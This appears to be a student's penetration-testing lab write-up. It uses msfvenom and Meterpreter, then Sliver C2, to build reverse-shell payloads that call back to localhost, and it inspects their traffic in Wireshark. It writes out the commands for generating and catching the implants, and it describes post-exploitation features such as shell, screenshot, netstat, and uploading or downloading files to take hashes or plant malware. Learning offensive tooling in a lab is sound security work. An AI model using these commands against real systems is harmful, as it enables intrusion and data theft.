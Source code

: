 # A) Sniff venom
At first I made malicious binaries with msfvenom. I used the following command: `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o infected1`  
After the malicious binary was made, i opened multi/handler in msfconsole, and set the LHOST, LPORT and the payload to be the same as the attack payload.  
Then i started up the ran the malicious binary and got a connection to multi/handler.  
<img width="464" height="65" alt="image" src="https://github.com/user-attachments/assets/fccd63f0-f5d3-4776-8db7-04696f861dfe" />  
Now that the connection has been made, i opened wireshark and gave a few random commands in the meterpreter session to see what the traffic looks like  
<img width="824" height="105" alt="image" src="https://github.com/user-attachments/assets/7a9ef415-fd1e-430f-837f-40e5ca7c1726" />  
This was the traffic of a single `ls` command. Im not sure how to analyze this. Maybe this can be detected by unusual TCP port?  
# B/C) Hello, Sliver.  
I started out by downloading sliver: `sudo apt-get install sliver`  
After that I ran sliver: `sliver-server`  
Then I generated a malicious payload for linux and set the callback address as loopback: `generate --http 127.0.0.1 --os linux`  
<img width="277" height="103" alt="image" src="https://github.com/user-attachments/assets/483bbc19-c759-4844-a345-5eaad58b4d4b" />  
After that I started the http listener with the command `http`, and ran the payload.  
<img width="647" height="65" alt="image" src="https://github.com/user-attachments/assets/7a324193-565f-443d-b140-d736405a02a1" />  
To interact with the session, I used the command `sessions -i sessionID`  
<img width="191" height="35" alt="image" src="https://github.com/user-attachments/assets/2c87299f-ffa6-452c-99d6-053ceaee4c15" />  
I tried to analyze the traffic once again with wireshark, but I cannot pinpoint anything suspicious about the traffic, maybe once again a weird portnumber?  
<img width="781" height="215" alt="image" src="https://github.com/user-attachments/assets/f66b706e-8c44-433f-8ba3-c1de2b771383" />  
# D) Changing connection properties.  
While the sessions was alive and I was interacting with it, I used the `help` command to see what kinds of operations I can do in this session.  
The first thing that popped from the list was the command `shell` that upgrades my session to get me shell.  
<img width="358" height="89" alt="image" src="https://github.com/user-attachments/assets/b623197d-ab52-429a-83ed-637d9476f2be" />  
Apparently, this is bad OpSec :D. But I press yes, i'm an adult and got the shell.  
After this, I tried to change the reconnection interval, which was currently set at 1 ms.  
<img width="299" height="188" alt="image" src="https://github.com/user-attachments/assets/9d8e69fe-1f37-4e7f-a8df-7486d955400e" />  
I tried this with this command: `reconfig -r 1s`, and it was succesful.  
<img width="284" height="180" alt="image" src="https://github.com/user-attachments/assets/c2d0d396-83b2-4188-a0da-b558acb22f69" />  
# E) Demonstrating sliver functionalities.  
You can do all sorts of things in sliver. You can display these functionalities with the `help` command.  
For example, you can take a screenshot of the target computer with the `screenshot` command.  
<img width="378" height="50" alt="image" src="https://github.com/user-attachments/assets/dbb55f67-e4fb-4f3e-9474-c43b90f1cea9" />  
With `netstat` you can print out the target computers current connections, useful for lateral movement.  
<img width="377" height="95" alt="image" src="https://github.com/user-attachments/assets/b1d41559-459a-468e-ab96-6e1b0115ae7f" />  
And as demonstrated in a previous point, `shell` can be used to open up an interactive shell.  
`Upload` and `download` commands can be used to upload files from your computer to the target and vice versa, useful if you neet to extract password hashes or other useful data. Or to inject malware to target system.  

# Sources:  
https://terokarvinen.com/tunkeutumistestaus/  
https://github.com/BishopFox/sliver/wiki/Getting-Started/59ebe3b6ac70e944b1755f51aaad573baa29f1a0  













